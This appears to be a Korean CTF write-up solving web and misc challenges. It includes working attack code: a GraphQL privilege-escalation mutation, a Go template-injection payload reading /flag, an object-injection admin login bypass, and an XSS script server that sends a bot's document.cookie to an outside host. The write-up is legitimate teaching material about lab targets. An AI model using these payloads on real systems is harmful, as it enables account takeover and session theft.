




## Web

### look_me_inside (1000 points, 24 solves)

해당 페이지에 접속한 후, 개발자 도구를 통해 사이트의 동작방식을 확인한다면, **graphql**을 활용하여 통신한다는 것을 알 수 있다. 그러나, 어떠한 보안조치도 없기 때문에, 악성 쿼리를 보내 **Query**, **Mutation**을 파악할 수 있다.

```json
{
    "name": "Query",
    "fields": [
        {
            "name": "getMe", // id, pw 반환
            "args": []
        },
        {
            "name": "getBooks",
            "args": []
        },
        {
            "name": "getBook",
            "args": [
                {
                    "name": "id",
                    "description": null,
                    "type": {
                        "name": null,
                        "kind": "NON_NULL",
                        "ofType": {
                            "name": "String",
                            "kind": "SCALAR"
                        }
                    }
                }
            ]
        }
    ]
},
{
    "name": "Mutation",
    "fields": [
        {
            "name": "updateUser",
            "args": [
                {
                    "name": "id",
                    "description": null,
                    "type": {
                        "name": null,
                        "kind": "NON_NULL",
                        "ofType": {
                            "name": "String",
                            "kind": "SCALAR"
                        }
                    }
                },
                {
                    "name": "password",
                    "description": null,
                    "type": {
                        "name": null,
                        "kind": "NON_NULL",
                        "ofType": {
                            "name": "String",
                            "kind": "SCALAR"
                        }
                    }
                },
                {
                    "name": "is_premium_user",
                    "description": null,
                    "type": {
                        "name": null,
                        "kind": "NON_NULL",
                        "ofType": {
                            "name": "Boolean",
                            "kind": "SCALAR"
                        }
                    }
                }
            ]
        }
    ]
}
```

**getMe**를 통해 id, pw를 반환하며, **getBook**을 통해 flag를 얻을 수 있다. 그러나 **getBook**의 경우에는 **is_premium_user**가 **true**여야 flag를 반환한다. 따라서 **updateUser**를 통해 **is_premium_user**를 **true**로 변경한 후, **getBook**을 통해 flag를 얻을 수 있다.

```javascript
const book_content_query = `
mutation {
  updateUser(id: "??", password: "??", is_premium_user: true) {
      id
      password
      is_premium_user
  }
}`;
const response3 = await fetch('/graphql', {
	method: 'POST',
	headers: {
		'Content-Type': 'application/json'
	},
	body: JSON.stringify({
		query: book_content_query
	})
});
```

위 코드를 실행시키고 난 후, 페이지를 새로고침하면 아래 사진과 같이 **flag** 부분이 활성화된 것을 볼 수 있다.

**flag{y0U_ar3_Gr1phQL_m4sT3r!}**

### gogocommand_server (1000 points, 12 solves)

**golang**으로 작성된 서버이다.

```go
func UnderConstruction(next http.Handler) http.Handler {
    return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
        if strings.HasPrefix(r.URL.Path, "/command") {
            w.Write([]byte("Under Construction!!!"))
            return
        }
        next.ServeHTTP(w, r)
    })
}
```

**/command/{command}** 라우터를 통해 원하는 명령어를 수행 가능하지만 위와 같이 막혀있다.

혹시나 해서 **pathtraversal** 공격을 시도해보았지만, 막힌 듯하다. (이 부분은 잘 모르겠다.)

그래서 다른 공격 벡터를 찾던 중, **index** 함수에서 **ssti** 공격이 발생한다는 것을 알았다.

```go
func index(w http.ResponseWriter, r *http.Request) {
    params := r.URL.Query()
    name := params.Get("name")
    if name == "" {
        name = command_run("echo", "guest")
    }

    data := IndexPageData{
        WelcomeText: "Welcome",
    }

    html := `<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>{{ .WelcomeText }}</title>
</head>
<body>
    <h1>Welcome! ` + name + `</h1>
    <h3>🚧 {{ getDate "date" "none" }} // Command page is under construction... 🚧</h3>
</body>
</html>
`

    tmpl, err := template.New("indexpage").Funcs(template.FuncMap{
        "getDate": getDate,
    }).Parse(html)
    if err != nil {
        http.Error(w, err.Error(), http.StatusInternalServerError)
        return
    }

    err = tmpl.Execute(w, data)
    if err != nil {
        http.Error(w, err.Error(), http.StatusInternalServerError)
        return
    }
}
```

만약 아래 **name**에 <strong>{{ }}</strong>와 같은 악성 페이로드를 삽입하게 된다면, **ssti** 공격이 발생한다.

```go
html := `<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>{{ .WelcomeText }}</title>
</head>
<body>
    <h1>Welcome! ` + name + `</h1>
    <h3>🚧 {{ getDate "date" "none" }} // Command page is under construction... 🚧</h3>
</body>
</html>
`
```

그러나, 사용 가능한 함수는 **getDate**로 제한되어 있으며, **getDate**는 **curl**, **echo**, **cat**, **date** 명령어만 지원한다. 이때, 효율적으로 **flag**를 얻기 위해서는 **curl**의 **globbing** 기능을 사용했어야 한다. 그러나 나는 **brute force**로 **flag**를 얻었다. :<

```typescript
import { create } from './utils/';

const r = create({
	baseURL: 'http://hackbox.kospo.co.kr:20002'
});

for (let i of 'abcdef01234') {
	console.info(i);
	for (let j of 'abcdef01234') {
		for (let k of 'abcdef01234') {
			for (let l of 'abcdef01234') {
				const res = await r.get('/', {
					params: {
						name: `{{getDate "cat" "/flag${i}${j}${k}${l}"}}`
					}
				});
				console.log(res.data.split('<h1>')[1].split('</h1>')[0].trim());
				if (!res.data.includes('No')) {
					console.log(res.data);
					process.exit(0);
				}
			}
		}
	}
}
```

참고로 **curl**의 **globbing**을 사용하는 방법은 아래와 같다.

```typescript
import { create } from './utils/';

const r = create({
	baseURL: 'http://hackbox.kospo.co.kr:20002'
});

const res = await r.get('/', {
	params: {
		name: `{{getDate "curl" "file:///flag{a,b,c,d,e,f,0,1,2,3,4}{a,b,c,d,e,f,0,1,2,3,4}{a,b,c,d,e,f,0,1,2,3,4}{a,b,c,d,e,f,0,1,2,3,4}"}}`
	}
});
console.log(res.data.split('<h1>')[1].split('</h1>')[0].trim());
```

**flag{SS1t_w1TH_Go14ng!!!}**

### kospo_board(1000 points, 5 solves)

문제 파일을 열었을때, 코드가 너무 난잡해서 나중에 풀었던 문제이다.
내가 좋아하는 **nodejs**로 작성된 서버이다!!
일단, **flag**는 봇의 **cookie**에 존재한다. 먼저, **flag**을 얻기 위한 **board**가 어떻게 작동하는 알아보자.

```javascript
router.post('/new', (req, res, next) => {
	let page_uuid = uuid.v4();
	db.query(
		'INSERT INTO board (uuid, title, content, username, admin_viewed) VALUES (?, ?, ?, ?, ?)',
		[page_uuid, req.body.title, req.body.content, req.user.username, false],
		(error, results, fields) => {
			if (error) {
				return next(error);
			}
			res.redirect(`./view/${page_uuid}`);
		}
	);
});
router.get('/view/:uuid', (req, res, next) => {
	db.query('SELECT * FROM board WHERE uuid = ?', [req.params.uuid], (error, results, fields) => {
		if (error) {
			return next(error);
		}
		if (!results[0]) {
			return res.sendStatus(404);
		}
		console.log(results);
		let content_user = results[0].username;
		let content = results[0].content;
		db.query('SELECT * FROM users WHERE username = ?', [content_user], (error, results, fields) => {
			if (error) {
				return next(error);
			}
			if (!results[0]) {
				return res.sendStatus(500);
			}
			console.log(results);
			let nonceFlag = results[0].nonce_flag; // nonce_flag는 admin 계정만 참이며, 아닌 경우는 모두 false이다.
			let _nonce = uuid.v4();
			if (nonceFlag) {
				db.query(
					'SELECT nonce FROM nonces WHERE username = ?',
					[content_user],
					(error, results, fields) => {
						if (error) {
							return next(error);
						}
						if (!results[0]) {
							db.query(
								'INSERT INTO nonces (username, nonce) VALUES (?, ?)',
								[content_user, _nonce],
								(err) => {
									if (err) {
										return next(err);
									}
								}
							);
						} else {
							_nonce = results[0].nonce;
						}
						res.send(`
                        <html>
                        <head>
                            <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src 'nonce-${_nonce}'; style-src 'self' 'unsafe-inline'; img-src *;">
                            <script nonce='${_nonce}'>document.write("hi")</script>
                            ${content}
                        </head>
                        </html>
                    `);
					}
				);
			} else {
				res.send(`
                    <html>
                    <head>
                        <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src 'nonce-${_nonce}'; style-src 'self' 'unsafe-inline'; img-src *;">
                        <script nonce='${_nonce}'>document.write("hi")</script>
                        ${content}
                    </head>
                    </html>
                `);
			}
		});
	});
});
```

딱 보자마자, **nonce**를 얻어야 한다는 것을 알 수 있다.
여기서 **nonce**를 얻는 방법이 두가지가 있다.

1. **css injection**을 통한 **nonce leak** (csp를 보면 이게 인텐인 것 같기도 하다.)
2. 계정 로그인 관련 취약점을 통한 **nonce leak**
   난 2번 방법을 사용해 **nonce**를 얻었다.
   **auth** 관련 코드를 보면, id와 pw의 타입 검증 없이 그대로 바인딩하고 있는 것을 알 수 있다.
   이는, **sql injection**이 가능해진다.

```javascript
passport.use(
	new Strategy(function (req, cb) {
		let username = req.body.username;
		let password = req.body.password;
		console.log(username, password);
		db.query(
			'SELECT * FROM users WHERE username = ? AND password = ?',
			[username, password],
			function (err, row, fields) {
				if (err) {
					return cb(err);
				}
				if (!row[0]) {
					return cb(null, false, { message: 'Incorrect username or password.' });
				}
				console.log(row);
				var user = {
					id: row[0].id,
					username: row[0].username,
					nonceFlag: row[0].nonce_flag
				};
				return cb(null, user);
			}
		);
	})
);
```

**username**에는 **admin**을 넣고, **password**는 객체로 전달해주면 된다.

```typescript
import { create } from './utils/';
const r = create({
	baseURL: 'http://hackbox.kospo.co.kr:41324/'
});
await r
	.post(
		'/login',
		{
			username: 'admin',
			password: {
				username: 0
			}
		},
		{
			maxRedirects: 0,
			validateStatus: (status) => status === 302
		}
	)
	.then((res) => console.info(res.headers, res.status));
```

그러면, **admin** 계정을 탈취할 수 있고, **nonce**를 얻을 수 있다.
참고로, **nonce** 값은 **cf833634-6991-47b9-8f85-9ba91c8a1a44**이다.
이제, **xss**를 통해 **flag**을 얻어야 한다.
먼저 **script**를 제공해줄 서버를 준비해야 한다.

```typescript
import express from 'express';
const app = express();
app.use('*', (req, res) => {
	console.info(req.query);
	console.info(req.headers);
	res.status(200).send('location.href="https://h.bmcyver.dev/?"+document.cookie');
});
app.listen(3000, '0.0.0.0', () => {
	console.log('Server started on http://0.0.0.0:3000');
});
```

그리고, <strong> &lt;script src='https://h.bmcyver.dev' nonce='cf833634-6991-47b9-8f85-9ba91c8a1a44'&gt;&lt;/script&gt; </strong>를 **content**에 넣고 **post**하면 된다.

**flag{471c6236d52f164df2b5ff324bb351ee6935715d9a102a386022430b220f8072vxxwcj1zzg}**

## Misc

### The Maze Runner Revenge (1000 points, 18 solves)

사이트에 들어가면, 미로가 있다.



대충 **solver**를 만들어서 풀어보았다. (온라인에서 적절한 코드 하나 가져와서, chatgpt 돌려주면 된다. ~~물론 직접 코드를 작성해도 된다.~~)

```typescript
//@ts-nocheck
import * as cheerio from 'cheerio';
import { create } from './utils/';

const axios = create({
	baseURL: 'http://hackbox.kospo.co.kr:16667'
});

async function shortestPath(grid: string[][]): Promise<number> {
	const directions: number[][] = [
		[0, 1], // right
		[1, 0], // down
		[0, -1], // left
		[-1, 0] // up
	];

	const rows: number = grid.length;
	const cols: number = grid[0].length;

	let start: number[] | null = null;
	let end: number[] | null = null;

	// Find start and end points
	for (let i = 0; i < rows; i++) {
		for (let j = 0; j < cols; j++) {
			if (grid[i][j] === '@') {
				start = [i, j];
			} else if (grid[i][j] === '#') {
				end = [i, j];
			}
		}
	}

	if (!start || !end) return -1;

	const queue: Array<[number, number, number]> = [[start[0], start[1], 0]];
	const visited: Set<string> = new Set();
	visited.add(start[0] + ',' + start[1]);

	while (queue.length > 0) {
		const [x, y, distance] = queue.shift()!;

		if (x === end[0] && y === end[1]) {
			return distance;
		}

		for (const [dx, dy] of directions) {
			const newX = x + dx;
			const newY = y + dy;

			if (
				newX >= 0 &&
				newX < rows &&
				newY >= 0 &&
				newY < cols &&
				grid[newX][newY] !== '1' &&
				!visited.has(newX + ',' + newY)
			) {
				visited.add(newX + ',' + newY);
				queue.push([newX, newY, distance + 1]);
			}
		}
	}
	return -1;
}
let step_1 = 1;

async function parseMaze(): Promise<void> {
	const { data } = await axios.get('/stage');
	const $ = cheerio.load(data);

	const cells = $('.maze .cell');
	const grid: string[][] = [];
	let rows: number = 10 + step_1;
	let cols: number = 10 + step_1;
	if (rows > 30) {
		rows = 30;
		cols = 30;
	}
	console.info(cells.length);
	for (let i = 0; i < rows; i++) {
		const row: string[] = [];
		for (let j = 0; j < cols; j++) {
			const cell = $(cells[i * cols + j]);
			if (cell.hasClass('wall')) {
				row.push('1');
			} else if (cell.hasClass('start')) {
				row.push('@');
			} else if (cell.hasClass('end')) {
				row.push('#');
			} else {
				row.push('0');
			}
		}
		grid.push(row);
	}

	const step: number = await shortestPath(grid);
	console.info('최단 경로:', step);
	await axios.postForm('/stage', { steps: step }).then(async (res) => {
		console.info(res.data);
		if (res.data.includes('통과')) {
			console.info('통과', step_1);
			step_1++;
			await parseMaze();
		}
	});
}

parseMaze();
```

**flag{e5382e8e9c47d3354e8bd7e235676a3c5191a3a350b60d70031646a8f2b9293d}**

### Captcha Bypass (1000 points, 18 solves)

사이트에 들어가면, 아래와 같이 **captcha**가 나온다. **captcha** 이미지 자체는 **ocr**로 읽어오기 쉽다. (근데, 혹시 그런 문제가 나왔을까 해서, session 값을 확인해보니 **captcha_text**가 존재한다.)



그러면 이를 이용해 **captcha**를 우회할 수 있다. ~~오늘 대체적으로 코드가 더러운데, redirect 될 때의 쿠키 값 처리를 이상하게 해두었다...~~

```typescript
import { create } from './utils/';

const r = create({
	baseURL: 'http://hackbox.kospo.co.kr:14447'
});

const decoder = () =>
	JSON.parse(Buffer.from(r.getCookie('session')?.split('.')[0]!, 'base64').toString());

await r.get('/', {
	maxRedirects: 0,
	validateStatus: (status) => status === 302
});

await r.get('/captcha', {
	maxRedirects: 0
});

for (let i = 0; i < 31; i++) {
	const data = decoder();
	console.log(data);
	await r
		.postForm(
			'/submit',
			{
				captcha: data.captcha_text
			},
			{
				maxRedirects: 0,
				validateStatus: (status) => status === 302
			}
		)
		.then((res) => {
			console.info(res.data);
		});
	await r
		.get('/captcha', {
			maxRedirects: 0
		})
		.then((res) => {
			console.info(res.data);
		});
}
```

위 코드를 돌려주면, 10초 이내에 **flag**가 나온다.



근데, 이걸 손으로 푼 팀이 있다고 해서 놀랐다....

**flag{c740ae2088ddc42b0c7df3a6dff19be84a81c23124e9e2cc8833a89e5f27c034}**

### Lamb (1000 points, 20 solves)

문제 파일 하나만 던져준다.

```python
_ = lambda __ : __import__('zlib').decompress(__import__('base64').b64decode(__[::-1]));exec((_)(b'==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'))
```

**base64**를 **reverse**한 뒤, **decoding**하고, **zlib**으로 **decompress**하면 또 저런게 나오는데, 원본 코드가 나올 때까지 반복해서 실행해줬다. 그러면 딱 봐도 아주 느려 보이는 함수가 나온다.

```python
fib = (lambda f: (lambda n: f(f, n)))( lambda f, n: n if n <= 2 else f(f, n - 1) + f(f, n - 2) + f(f, n - 3) )

result = 'flag{'

for i in range(0, 200, 9):
    result += str(fib(i))
    print(result)

result += '}'
print(result)
```

이를 최적화 해주고, **flag**를 얻으면 된다.

```python
def fib(n, memo={}):
    if n in memo:
        return memo[n]
    if n <= 2:
        return n
    memo[n] = fib(n - 1, memo) + fib(n - 2, memo) + fib(n - 3, memo)
    return memo[n]

result = "flag{"
for i in range(0, 200, 9):
    result += str(fib(i))
result += "}"

print(result)
```

**flag{012530122725652717481303264211325385671014527420536762444042653467920158878098029229914601418400134146885373913341699037144358680988654823168506365148666776570751983050334394589676653798994647772583600253584231607504529151150863245506051260870977163040832277248185055181114572069565570413413667903475209103694582271559884701463121609009819514637537984884786419034879352538761777642854805832271476827517048162877629337888357246599748343755262694404711732458792249539734111626830280456572830797285323264318385419243432504630371581839599526570019715850170550313055203664736538178462563219117049183199426576339828}**
